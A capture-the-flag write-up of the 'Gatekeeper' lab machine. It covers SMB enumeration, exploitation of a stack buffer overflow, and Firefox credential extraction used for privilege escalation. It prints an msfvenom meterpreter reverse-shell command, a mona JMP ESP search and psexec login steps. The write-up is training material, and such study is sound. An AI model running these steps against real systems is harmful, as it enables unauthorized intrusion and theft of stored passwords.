


# Gatekeeper

Gatekeeper is a machine vulnerable to a buffer overflow vulnerability, let's begin!

### Information

First things first, let us scan the target using nmap.

```
nmap <ip> -p-
```

> Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-22 21:02 EDT
> Stats: 0:00:05 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
> Connect Scan Timing: About 9.37% done; ETC: 21:03 (0:00:48 remaining)
> Nmap scan report for 10.10.62.101
> Host is up (0.046s latency).
> Not shown: 65524 closed tcp ports (conn-refused)
> PORT      STATE SERVICE
> 135/tcp   open  msrpc
> 139/tcp   open  netbios-ssn
> 445/tcp   open  microsoft-ds
> 3389/tcp  open  ms-wbt-server
> 31337/tcp open  Elite
> 49152/tcp open  unknown
> 49153/tcp open  unknown
> 49154/tcp open  unknown
> 49160/tcp open  unknown
> 49161/tcp open  unknown
> 49162/tcp open  unknown
>
> Nmap done: 1 IP address (1 host up) scanned in 98.62 seconds


We can see that the the target is hosting a set of services:

- SMB Ports 135,139,445
- RDP 3389
- Elite 31337 (This port number means "elite" in hacker/cracker spelling (3=E, 1=L, 7=T) and because of the special meaning is often used for interesting stuff)
- Other services


### SMB Enumeration

Let's begin by enumerating the SMB shares:

```
smbclient -L //<ip>
```

>         Sharename       Type      Comment
>         ---------       ----      -------
>         ADMIN$          Disk      Remote Admin
>         C$              Disk      Default share
>         IPC$            IPC       Remote IPC
>         Users           Disk      


Great now we know that there is an SMB Share called **Users**. Let's try to explore it:

```
smbclient //<ip>/Users -N
```


Great! We are in! We can explore the directory and find the gatekeeper.exe file which we should download and transfer to our Windows machine so that we can analyze this executable.

```
get gatekeeper.exe
```




### Exploiting the Buffer Overflow

Now that we have both files in the machine, let us fire up the gatekeeper.exe to see what this program does. The program is waiting for a connection, but what port could it be listening on?

There are two clues which point us to the port we should connect to: nmap's port enumeration and additionaly if we inspect the executable strings in kali linux we can see that the number 31337 is one of the strings.

When we connect to this port we can see that the terminal that is running the executable received a connection from a remote host (our kali machine). If we type something and press enter from our attacking machine the program will showcase how many bytes were received from the remote host and how many are going to be sent back.

The image below showcases this exact interaction:


After connecting we sent:

- 3 bytes `hi\n`
- 2 bytes `o\n`
- 7 bytes `batata\n`

The application always sends back the number of bytes we sent plus 9 which is equal to the size of `Hello` (5), one space ` ` and three exclamation points (3). 

Now that we understand how the application works we can try to test for a buffer overflow by sending increasingly long messages with one of our set of scripts. 

Let's fire up Immunity Debugger.

I'm going to use my [Hack-the-Stack](https://github.com/franlupo/Hack-the-Stack) scripts to help me exploit this Buffer Overflow Vulnerability. I had to make some adjustments to my original set of scripts so that they would work for this scenario. 

#### Fuzzing/Manual Crash

The first thing I did was to edit my fuzzer script. Basicaly for the payload to work you have to send a '\n' at the end of the payload or the server will not correctly interpret the message and will get stuck.

After this minor correction I executed the script and got the results below:


The application crashed at 201 bytes, 200 of those are A's and the last one is a \n. Additionally we can see that the behaviour we wanted to achieve is what was expected since the EIP register is filled with 41414141. Since we will need space for later let's put our value to 700 in the next test.

We can double check this by running the manual crash script with a value of 1000.


#### EIP Offset

Next I used the EIP offset script to know the offset to the return address location. With a payload of 1000 bytes the EIP register had a value of:


Hence, the EIP offset is 146 bytes.


#### EIP Control

Next, we can use the EIP Control script to make sure we have control over the return address. We can validate this since we were able to purposely fill the EIP register with BBBB.


#### Finding Bad Characters

The next step is to find bad characters using the respective script. After inspecting the call stack all characters we can see that the \x0a character is another bad character.


#### JMP Pointer

Using the mona command below I was able to find several interesting addresses we could use to JMP to the ESP.

```
!mona jmp -r esp -cpb "\x00\0a"
```


```
python 06_jmp_pointer.py <ip> 31337 143 1000 0x080414C3
```


Great! All that is left to do is upload the payload.

#### Generate Shellcode 

We can use the following command to generate the shellcode and copy it to our nop sled script.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f py -v shellcode
```

> Not the IP we were using to test the script, but the VPN IP address of our machine

After this we just have to launch a metasploit listener using multi/handler and we after executing the payload we get a meterpreter session.

The flag is located in the current directory inside the file user.txt.txt.


### Privilege Escalation

Regarding privilege escalation we have to find a way to discover the **mayor**'s password.

First things first we see that the current directory has a Firefox.lnk file. Firefox is installed? Yes, we can see that information if we got to **Program Files (x86)** or by running the **/post/windows/gather/enum_applications**.




Now that we have this information we can manually enumerate the machine to find a set of files with credentials or alternatively we can use **post/multi/gather/firefox_creds** to extract them.


Now that we have the files you have to try and extract the credentials they have. In order to do this we can search for a tool to decrypt firefox credentials which can be found here.

In order to use this tool, you have to rename the files to their original names (cert9.db, cookies.sqlite, key4.db and logins.json) and run the tool with the location of the files.


Great! Now that we have the password we can login as mayor with RDP or using psexec and recover the root.txt flag.

```
psexec.py mayor:<password>@<ip>
```

I was able to get a shell by executing the command above and I was able to login as mayor which is nt authority\system. The flag **root.txt.txt** is located on the Desktop of the mayor user.

Congratulations you just finished another room.
